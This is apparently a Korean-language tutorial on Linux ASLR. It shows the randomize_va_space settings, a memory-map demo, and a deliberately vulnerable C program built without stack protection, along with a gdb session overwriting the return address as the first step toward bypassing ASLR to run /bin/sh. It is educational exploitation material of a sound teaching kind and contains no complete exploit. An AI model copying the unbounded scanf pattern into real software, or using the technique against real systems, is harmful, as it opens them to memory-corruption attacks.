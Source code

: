 # ASLR
* Address Space Layout Randomization(ASLR) : 라이브버리, 힙, 스택 영역 등의 주소를 바이너리가 실행될 떄마다 랜덤하게 바꿔 RTL과 같이 정해진 주소를 이용한 공격을 막기 위한 보호 기법
ASLR은 서버의 설정 파일에 의해 보호 기법의 적용이 결정된다.
Ubuntu 16.04에서는 /proc/sys/kernel/randomize_va_space 파일의 값을 확인하면 서버의 ASLR 설정 여부를 알 수 있다.
설정 파일의 값으로는 0, 1, 2가 있다.
```
0 : ASLR을 적용하지 않음
1 : 스택, 힙 메모리를 랜덤화
2 : 스택, 힙, 라이브버리 메모리를 랜덤화
```
만약 해당 파일의 값이 2가 아니면, 루트 권한으로 다음 명령어를 실행하여 ASLR 보호 기법을 적용할 수 있다.
```
# cat /proc/sys/kernel/randomize_va_space 
0
# echo 2 > /proc/sys/kernel/randomize_va_space
# cat /proc/sys/kernel/randomize_va_space
2
# 
```
* 예제1
``` C
//example3.c
//gcc -o example3 example3.c -m32
#include <stdio.h>
#include <stdlib.h>
int main(void){
  char * buf = (char *)calloc(1, 4096);
  FILE * fp = 0;
  size_t sz = 0;
  fp = fopen("/proc/self/maps", "r");
  sz = fread(buf, 1, 4096, fp);
  fwrite(buf, 1, sz, stdout);
}
```
example3.c는 프로세스 자신의 메모리 맵을 읽어 출력해주는 코드이다.   
서버에 ASLR이 켜져있을 때, 라이브러리, 힙, 스택 영역의 주소가 랜덤하게 바뀌는 것을 알 수 있다.
라이브러리 주소가 계속 바뀌기 때문에, 스택 버퍼 오버플로우 취약점을 공격할 때 정적 주소를 이용한 공격을 사용할 수 없다.
하지만 바이너리 코드 영역의 주소는 변하지 않기 때문에 이를 이용해 ASLR 보호 기법을 우회하여 익스플로잇 할 수 있다.

* 예제2
```
//gcc -o example4 example4.c -fno-stack-protector -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int main(void){
  char buf[32] = {};
  puts("Hello World!");
  puts("Hello ASLR!");
  scanf("%s", buf);
  return 0;
}
```
example4.c는 scanf함수로 32바이트 크기의 배열 buf에 데이터를 입력받는다. 이때, "%s" 포맷 스트링을 사용하기 때문에 입력 길이의 제한이 없어 스택 버퍼 오버플로우 취약점이 발생한다.
최종 목표는 이전과 마찬가지로 /bin/sh 바이너리를 실행하는 것이다.
우선 바이너리에 NX bit가 적용되어 있는지 확인해 보자.
```
$ readelf -a ./example4 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  ```
readelf로 확인한 스택 메모리의 권한은 RW로, 바이너리에 NX bit가 적용되어 있따. 또한 서버에 ASLR 보호 기법이 적용되어 있기 때문에 이전의 공격 기법은 사용할 수 없다.
```
$ gdb -q ./example4 
Reading symbols from ./example4...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804845b <+0>:	  push   ebp
   0x0804845c <+1>:	  mov    ebp,esp
   0x0804845e <+3>:	  sub    esp,0x20
   0x08048461 <+6>:	  mov    ecx,0x0
   0x08048466 <+11>:	mov    eax,0x20
   0x0804846b <+16>:	and    eax,0xfffffffc
   0x0804846e <+19>:	mov    edx,eax
   0x08048470 <+21>:	mov    eax,0x0
   0x08048475 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048479 <+30>:	add    eax,0x4
   0x0804847c <+33>:	cmp    eax,edx
   0x0804847e <+35>:	jb     0x8048475 <main+26>
   0x08048480 <+37>:	push   0x8048540
   0x08048485 <+42>:	call   0x8048320 <puts@plt>
   0x0804848a <+47>:	add    esp,0x4
   0x0804848d <+50>:	push   0x804854d
   0x08048492 <+55>:	call   0x8048320 <puts@plt>
   0x08048497 <+60>:	add    esp,0x4
   0x0804849a <+63>:	lea    eax,[ebp-0x20]
   0x0804849d <+66>:	push   eax
   0x0804849e <+67>:	push   0x8048559
   0x080484a3 <+72>:	call   0x8048340 <__isoc99_scanf@plt>
   0x080484a8 <+77>:	add    esp,0x8
   0x080484ab <+80>:	mov    eax,0x0
   0x080484b0 <+85>:	leave  
   0x080484b1 <+86>:	ret    
End of assembler dump.
(gdb) r
Starting program: ~/Linux_Exploitation_Mitigation/example4 
Hello World!
Hello ASLR!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb) 
```
먼저 스택 오버플로우 취약점을 이용해 스택의 리턴 주소를 덮어보자.
main 함수의 디스어셈블리 결과를 보면, scanf 함수의 2번째 인자인 buf 배열의 주소는 ebp-0x20인 것을 알 수 있다.
ebp 레지스터가 가리키는 위치에는 스택 프레임 포인터가 존재하고 ebp+4에 main 함수의 리턴 주소가 위치한다.
따라서 "A"*36+"BBBB"를 입력으로 넣었을 때 main 함수가 리턴한 이후 eip 레짓터의 값이 0x42424242로 바뀐 것을 확인할 수 있다.   
![image](https://user-images.githubusercontent.com/59531805/79434073-d5021a80-8008-11ea-9529-789c6179256f.png)   
NX bit가 걸려 있으므로, 프로그램이 비정상 종료하지 않기 위해서는 실행 권한이 있는 코드 영역으로 덮어야 한다.
```
//example4의 메모리 맵
08048000-08049000 r-xp 00000000 08:01 150622                             /example4
// 바이너리의 코드 영역
08049000-0804a000 r--p 00000000 08:01 150622                             /example4
// 바이너리의 Read Only 데이터 영역
0804a000-0804b000 rw-p 00001000 08:01 150622                             ~/example4
// 바이너리의 데이터 영역
0804b000-0806c000 rw-p 00000000 00:00 0                                  [heap]
f7e02000-f7e03000 rw-p 00000000 00:00 0 
f7e03000-f7fb3000 r-xp 00000000 08:01 1183815                            /lib/i386-linux-gnu/libc-2.23.so
f7fb3000-f7fb5000 r--p 001af000 08:01 1183815                            /lib/i386-linux-gnu/libc-2.23.so
f7fb5000-f7fb6000 rw-p 001b1000 08:01 1183815                            /lib/i386-linux-gnu/libc-2.23.so
f7fb6000-f7fb9000 rw-p 00000000 00:00 0 
f7fd3000-f7fd4000 rw-p 00000000 00:00 0 
f7fd4000-f7fd7000 r--p 00000000 00:00 0                                  [vvar]
f7fd7000-f7fd9000 r-xp 00000000 00:00 0                                  [vdso]
f7fd9000-f7ffc000 r-xp 00000000 08:01 1183801                            /lib/i386-linux-gnu/ld-2.23.so
f7ffc000-f7ffd000 r--p 00022000 08:01 1183801                            /lib/i386-linux-gnu/ld-2.23.so
f7ffd000-f7ffe000 rw-p 00023000 08:01 1183801                            /lib/i386-linux-gnu/ld-2.23.so
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
// 스택 영역
```
















